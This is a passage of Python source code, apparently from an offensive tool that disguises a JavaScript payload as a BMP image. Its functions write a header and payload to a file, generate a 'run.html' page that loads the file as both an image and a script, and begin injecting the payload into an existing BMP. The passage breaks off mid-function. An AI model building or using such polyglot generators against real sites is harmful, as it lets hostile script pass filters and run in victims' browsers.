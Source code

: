        # I made this explicit, step by step .

        f.write(header)

        f.write(payload)

        f.close()

        return True

#---------------------------------------------------------

def _generate_launching_page(f):

        """

        Creates the HTML launching page

        """

        htmlpage ="""

                                                                &lt;html&gt;

                                                                &lt;head&gt;&lt;title&gt;Opening an image&lt;/title&gt; &lt;/head&gt;

                                                                &lt;body&gt;

                                                                        &lt;img src=\"""" + f + """\"\&gt;

                                                                        &lt;script src= \"""" + f + """\"&gt; &lt;/script&gt;

                                                                &lt;/body&gt;

                                                                &lt;/html&gt;

                                                """

        html = open("run.html", "wb")

        html.write(htmlpage);

        html.close()

        return True

#---------------------------------------------------------

def _inject_into_file(payload, fname):

        """

        Injects the payload into existing BMP

        NOTE: if the BMP contains \xFF\x2A might caouse issues

        """

        # I know, I can do it all in memory and much more fast.

        # I wont do it here.
